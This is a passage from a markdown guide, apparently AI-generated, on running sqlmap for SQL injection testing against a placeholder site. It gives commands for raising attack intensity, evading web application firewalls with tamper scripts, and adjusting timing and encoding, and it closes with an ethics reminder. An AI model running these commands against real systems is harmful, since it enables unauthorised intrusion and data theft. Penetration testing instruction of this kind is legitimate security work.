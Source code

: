 2. **Gradual Escalation**
   ```bash
   # Increase intensity gradually
   sqlmap -u "http://example.com/vuln.php?id=1" --level=3 --risk=2 --batch
   ```

3. **Monitor and Adapt**
   - Watch for WAF blocks
   - Adjust delays and techniques
   - Use different tamper scripts

4. **Document Everything**
   - Keep detailed logs
   - Record successful techniques
   - Note detection mechanisms

## Troubleshooting Common Issues

### WAF Detection
```bash
# Use evasion techniques
sqlmap -u "http://example.com/vuln.php?id=1" \
  --tamper=between,charencode,charunicodeescape \
  --delay=3 \
  --retries=2 \
  --batch
```

### Timeout Issues
```bash
# Adjust timing parameters
sqlmap -u "http://example.com/vuln.php?id=1" \
  --timeout=30 \
  --retries=3 \
  --keep-alive \
  --batch
```

### Encoding Problems
```bash
# Use hex encoding
sqlmap -u "http://example.com/vuln.php?id=1" \
  --hex \
  --no-cast \
  --batch
```

---

**Remember**: Always use these techniques ethically and legally. Unauthorized testing can have serious consequences.
```

This markdown file provides a comprehensive guide to using SQLmap with DSSS techniques, organized for easy reference and practical implementation.